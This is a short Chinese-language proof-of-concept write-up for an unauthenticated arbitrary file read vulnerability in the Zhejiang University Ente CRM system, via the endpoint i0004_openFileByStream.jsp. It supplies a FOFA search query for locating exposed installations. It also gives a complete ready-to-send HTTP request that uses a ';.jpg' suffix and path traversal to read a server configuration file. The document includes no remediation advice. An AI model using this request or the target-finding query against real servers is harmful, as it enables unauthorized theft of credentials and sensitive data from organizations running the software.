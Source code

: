 # 浙大恩特客户资源管理系统 i0004_openFileByStream.jsp 任意文件读取漏洞

## 1.漏洞描述

浙大恩特客户资源管理Q系统是一款外贸管理软件，它提供了多种功能，包括客户档案管理、邮件管理、OA外贸办公管理系统、分管权限管理、联系跟进及提醒、业务检查管理、统计分析管理等。

浙大恩特客户资源管理系统存在任意文件读取漏洞。未授权的攻击者可以通过该漏洞读取服务器任意文件，从而获取大量敏感信息。

## 2.搜索语法

```plain
fofa：title="欢迎使用浙大恩特客户资源管理系统"
```

## 3.漏洞复现

```plain
GET /entsoft/module/i0004_openFileByStream.jsp;.jpg?filepath=/../EnterCRM/bin/xy.properties&filename=conan HTTP/1.1
Host: 127.0.0.1
Accept-Encoding:gzip,deflate,br
Accept:*/*
Accept-Language:en-US;q=0.9,en;q=0.8
User-Agent:Mozilla/5.0(WindowsNT 10.0: Win64:x64)AppleWebKit/537.36(KHTML, likeGecko) Chrome/116.0.5845.111 Safari/537.36
Connection:close
Cache-Control:max-age=0
```

![image-20240615181702747](D:\py\POC\浙大恩特客户资源管理系统 i0004_openFileByStream.jsp 任意文件读取漏洞\image-20240615181702747.png)